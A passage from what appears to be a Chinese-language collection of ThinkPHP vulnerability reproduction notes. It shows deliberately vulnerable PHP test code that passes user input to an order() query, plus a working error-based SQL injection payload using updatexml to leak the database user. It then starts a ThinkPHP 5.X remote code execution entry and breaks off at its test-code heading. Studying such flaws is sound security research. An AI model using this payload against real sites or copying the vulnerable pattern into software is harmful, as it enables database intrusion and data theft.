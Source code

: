 >测试方法
>
>```bash
>git checkout 35e9878
>```
>
>测试代码
>
>```php
>public  function testsql()
>{
>   $order = input('get.order');
>   $m = db('user')->order($order)->find();
>   var_dump($m);
>}
>```
>
>POC
>
>```php
>testsql?order[id`|updatexml(1,concat(0x3a,user()),1)%23]=1
>```
>
>结果
>
>![img](image/ThinkPHP/2018-08-23.png)

#### ThinkPHP5.X_远程代码执行

| 标题     | ThinkPHP5.X 远程代码执行                                     |
| -------- | ------------------------------------------------------------ |
| 时间     | 2018-12-10                                                   |
| 版本     | 5.0.5-5.0.22<br />5.1.0-5.1.30                               |
| 文章链接 | <https://xz.aliyun.com/t/3570><br />https://paper.seebug.org/760/<br /><https://paper.seebug.org/770> |
>测试方法
>
>```bash
>git checkout 4fefa5e
>```
>
>测试代码
>